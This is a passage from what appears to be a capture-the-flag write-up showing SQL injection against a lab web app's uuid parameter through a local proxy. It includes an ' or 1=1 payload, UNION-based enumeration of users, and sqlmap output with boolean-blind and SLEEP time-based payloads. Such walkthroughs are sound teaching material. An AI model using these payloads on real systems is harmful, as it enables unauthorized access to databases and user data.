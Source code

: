 I’ll verify the proxy works but trying my current UUID and it works (images break, but page source is good):

![image-20210517114023850](https://0xdfimages.gitlab.io/img/image-20210517114023850.png)

#### SQLI POC

I’ll add a `'` to the end of my UUID, and the page crashes:

![image-20210517114220767](https://0xdfimages.gitlab.io/img/image-20210517114220767.png)

The page also crashes when I change one character in the UUID or set it to 1. Basically, I think that anything that’s not in the DB causes a crash. So I’ll try `http://127.0.0.1:5000/?uuid=%27%20or%201=1--%20-`. This query is based on a guess that the query looks like:

```

select * from users where uuid = '{uuid}';

```

This input would make that into:

```

select * from users where uuid = '' or 1=1-- -';

```

Not only does the page return, but there’s a different user, chiv. That looks a lot like SQL injection.

I can check for `UNION` injection, and it works with just one column:

![image-20210517120115302](https://0xdfimages.gitlab.io/img/image-20210517120115302.png)

#### Manual SQLI

If I can guess that the table is likely named users, and there’s probably a uuid column, I can list the UUIDs in the DB:

[![image-20210517120328824](https://0xdfimages.gitlab.io/img/image-20210517120328824.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210517120328824.png)

I can list the users too - my first guess of username failed, but name worked:

[![image-20210517120410125](https://0xdfimages.gitlab.io/img/image-20210517120410125.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210517120410125.png)

Most of those are me, but the first one is chiv.

#### sqlmap

Alternatively, now that I have the proxy set up, I can just point `sqlmap` at it:

```

oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid
...[snip]...                            
---                                                                  
Parameter: uuid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: uuid=129f60ea-30cf-4065-afb9-6be45ad38b73' AND 1681=1681 AND 'ZIDK'='ZIDK                                                                 

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uuid=129f60ea-30cf-4065-afb9-6be45ad38b73' AND (SELECT 9112 FROM (SELECT(SLEEP(5)))TFNV) AND 'TgiY'='TgiY                                 

```